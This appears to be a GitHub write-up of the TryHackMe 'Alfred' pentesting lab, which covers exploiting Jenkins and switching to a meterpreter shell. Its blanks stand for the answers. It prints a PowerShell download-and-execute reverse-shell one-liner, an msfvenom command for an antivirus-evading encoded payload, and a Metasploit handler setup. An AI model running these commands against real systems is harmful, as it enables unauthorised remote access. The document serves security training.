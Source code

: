<p><h3> Welcome to the <em>TryHackMe</em></h3>
<h1>Offensive Pentesting learning path> Advanced Exploitation</h1>
<h2>Alfred</h2>
<p>Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication token.</p>
<br>
October 19, 2024<br><br>
Type: Easy<br>
Link: https://tryhackme.com/r/room/alfred</p><br>

![image](https://github.com/user-attachments/assets/89ba97a4-d79a-4c6d-8c86-dab1becb8e05)


<p><h2>Task 1 - Initial Access</h2>
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. <br><br>
Since this is a Windows application, we'll be using <strong>Nishang</strong> to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the <strong>reverse shell scripts</strong>.<br><br>
Please note that this machine <strong>does not respond to ping</strong> (ICMP) and may take a few minutes to boot up.

In the following link you´ll find more information about Nishang.https://github.com/samratashok/nishang<br>
And in tis other link we will find more abour reverse shell scripts. https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1</p>

<p><br></p>

> 1.1 - <em>How many ports are open? (TCP only)?</em><br>
>> <strong>_______</strong>

<p><br></p>

> 1.2 - <em>What is the username and password for the login panel? (in the format username:password)</em><br>
>> <strong>________</strong>

<p><br></p>

<p>Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: <code>powershell iex</code> (<em>New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port</em></p>
<p>You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: <code>python3 -m http.server</code></p>

<p><br></p>

> 1.3 - <br>
>> <strong>No answer needed</strong>

<p><br></p>

> 1.4 - <em>What is the username and password for the login panel? (in the format username:password)</em><br>
>> <strong>____</strong>


<p><h2>Task 2 - Switching Shells</h2>
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.<br><br>
Use msfvenom to create a Windows meterpreter reverse shell using the following payload:<br><br>
> <strong>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe</strong><br><br>
This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.<br><br>
After creating this payload, download it to the machine using the same method in the previous step:<br><br>
>> <strong>powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"</strong><br><br>
Before running this program, ensure the handler is set up in Metasploit:<br><br>
>> <strong>use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run</strong><br><br>
This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell<br><br>
>> <strong>Start-Process "shell-name.exe"</strong><br><br>
This should spawn a meterpreter shell for you!</p>

<p><br></p>

> 2.1 - <em>What is the final size of the exe payload that you generated?</em><br>
>> <strong>_______</strong>




